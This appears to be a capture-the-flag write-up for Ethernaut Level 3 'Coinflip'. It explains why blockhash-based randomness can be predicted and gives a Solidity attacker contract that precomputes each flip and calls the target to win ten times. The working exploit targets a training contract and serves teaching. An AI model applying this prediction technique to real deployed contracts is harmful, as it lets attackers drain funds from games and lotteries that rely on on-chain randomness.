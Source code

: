 <div align="center">

<img src="../assets/levels/3-coinflip.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 3 - Coinflip</strong></h1>

</div>

## Objectif

<img src="../assets/requirements/3-coinflip-requirements.webp" width="800px"/>

## The hack

Everything in the EVM is deterministic. This means that entropy doesn't exist natively on-chain (you can use third party solutions like [Chainlink VRF](https://docs.chain.link/vrf/)).
The logic used in the `CoinFlip` contract is only pseudo-random. So we can predict the next flip by using the same logic as the one in the contract.
Once done, we can call the `flip` function with the predicted value and repeat this 10 times to win the level.

## Solution

We can craft a smart contract that reproduce the same logic as the `CoinFlip` contract to predict the next flip and call the `flip` function with the predicted value.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

interface ICoinFlip {
    function flip(bool) external returns (bool);
}

contract Unflip {
    address constant coinflip = 0xb721D5C58B4B2d7Fc82084541C639A6b6E3CBf73; // Replace with your CoinFlip instance
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function playToWin() private view returns (bool) {
        uint256 pastBlockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlipResult = pastBlockValue / FACTOR;
        return coinFlipResult == 1 ? true : false;
    }

    function attack() public {
        ICoinFlip(coinflip).flip(playToWin());
    }
}
```

## Takeaway

- Entropy doesn't exist on-chain
- Pseudo randomness can help for development but not for security
- To read: https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#entropy-illusion

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
